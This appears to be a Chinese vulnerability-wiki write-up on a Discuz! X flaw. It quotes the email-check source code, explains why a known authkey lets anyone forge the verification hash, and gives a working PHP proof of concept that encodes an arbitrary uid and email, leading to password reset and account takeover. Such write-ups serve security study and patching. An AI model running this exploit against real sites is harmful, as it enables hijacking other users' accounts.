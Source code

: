 Discuz! X authkey 重置任意账户邮箱
==================================

一、漏洞简介
------------

需要得到authkey

二、漏洞影响
------------

三、复现过程
------------

当我们申请修改邮箱的时候，我们会受到一封类似于下面这样的邮件。

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!Xauthkey重置任意账户邮箱/media/rId24.png)

验证链接类似于

    http://www.0-sec.org/dz3.3/home.php?mod=misc&ac=emailcheck&hash=0eb7yY2wtS1q16Zs2%2BtSkR6w5O%2Fx6jdLbu0FnWbegB8ixs2Y6tfcyAnrvz4yPIE7pKzoqawU0ku47y4F

跟入`/source/include/misc/misc_emailcheck.php` 代码如下：

    <?php
    /**
     *      [Discuz!] (C)2001-2099 Comsenz Inc.
     *      This is NOT a freeware, use is subject to license terms
     *
     *      $Id: misc_emailcheck.php 33688 2013-08-02 03:00:15Z nemohou $
     */
    if(!defined('IN_DISCUZ')) {
        exit('Access Denied');
    }
    $uid = 0;
    $email = '';
    $_GET['hash'] = empty($_GET['hash']) ? '' : $_GET['hash'];
    if($_GET['hash']) {
        list($uid, $email, $time) = explode("\t", authcode($_GET['hash'], 'DECODE', md5(substr(md5($_G['config']['security']['authkey']), 0, 16))));
        $uid = intval($uid);
    }
    // exit($email);
    if($uid && isemail($email) && $time > TIMESTAMP - 86400) {
        $member = getuserbyuid($uid);
        $setarr = array('email'=>$email, 'emailstatus'=>'1');
        if($_G['member']['freeze'] == 2) {
            $setarr['freeze'] = 0;
        }
        loaducenter();
        $ucresult = uc_user_edit(addslashes($member['username']), '', '', $email, 1);
        if($ucresult == -8) {
            showmessage('email_check_account_invalid', '', array(), array('return' => true));
        } elseif($ucresult == -4) {
            showmessage('profile_email_illegal', '', array(), array('return' => true));
        } elseif($ucresult == -5) {
            showmessage('profile_email_domain_illegal', '', array(), array('return' => true));
        } elseif($ucresult == -6) {
            showmessage('profile_email_duplicate', '', array(), array('return' => true));
        }
        if($_G['setting']['regverify'] == 1 && $member['groupid'] == 8) {
            $membergroup = C::t('common_usergroup')->fetch_by_credits($member['credits']);
            $setarr['groupid'] = $membergroup['groupid'];
        }
        updatecreditbyaction('realemail', $uid);
        C::t('common_member')->update($uid, $setarr);
        C::t('common_member_validate')->delete($uid);
        dsetcookie('newemail', "", -1);
        showmessage('email_check_sucess', 'home.php?mod=spacecp&ac=profile&op=password', array('email' => $email));
    } else {
        showmessage('email_check_error', 'index.php');
    }
    ?>

当hash传入的时候，服务端会调用authcode函数解码获得用户的uid，要修改成的email，时间戳。

    list($uid, $email, $time) = explode("\t", authcode($_GET['hash'], 'DECODE', md5(substr(md5($_G['config']['security']['authkey']), 0, 16))));

然后经过一次判断

    if($uid && isemail($email) && $time > TIMESTAMP - 86400) {

这里没有任何额外的判断，在接下来的部分，也仅仅对uid的有效性做了判断，而uid代表这用户的id值，是从1开始自增的。

也就是说，只要authcode函数解开hash值，就能成功的验证并修改邮箱。

这里我们可以直接使用authcode函数来获得hash值

### poc

> 这里需要修改md5(\"authkey\")

    <?php
            //Enter your code here, enjoy!
    function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
        $ckey_length = 4;
        $key = md5($key ? $key : UC_KEY);
        $keya = md5(substr($key, 0, 16));
        $keyb = md5(substr($key, 16, 16));
        $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
        $cryptkey = $keya.md5($keya.$keyc);
        $key_length = strlen($cryptkey);
        $string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
        $string_length = strlen($string);
        $result = '';
        $box = range(0, 255);
        $rndkey = array();
        for($i = 0; $i <= 255; $i++) {
            $rndkey[$i] = ord($cryptkey[$i % $key_length]);
        }
        for($j = $i = 0; $i < 256; $i++) {
            $j = ($j + $box[$i] + $rndkey[$i]) % 256;
            $tmp = $box[$i];
            $box[$i] = $box[$j];
            $box[$j] = $tmp;
        }
        for($a = $j = $i = 0; $i < $string_length; $i++) {
            $a = ($a + 1) % 256;
            $j = ($j + $box[$a]) % 256;
            $tmp = $box[$a];
            $box[$a] = $box[$j];
            $box[$j] = $tmp;
            $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
        }
        if($operation == 'DECODE') {
            if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
                return substr($result, 26);
            } else {
                return '';
            }
        } else {
            return $keyc.str_replace('=', '', base64_encode($result));
        }
    }
    echo authcode("3\ttest@success.com\t1503556905", 'ENCODE', md5(substr(md5("5e684ceqNxuCvmoK"), 0, 16)));

访问hash页面，我们可以看到验证邮箱已经被修改了，接下来我们可以直接通过忘记密码来修改当前用户的密码。

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!Xauthkey重置任意账户邮箱/media/rId26.png)

参考链接
--------

> https://lorexxar.cn/2017/08/31/dz-authkey/\#%E6%BC%8F%E6%B4%9E%E8%AF%A6%E6%83%85
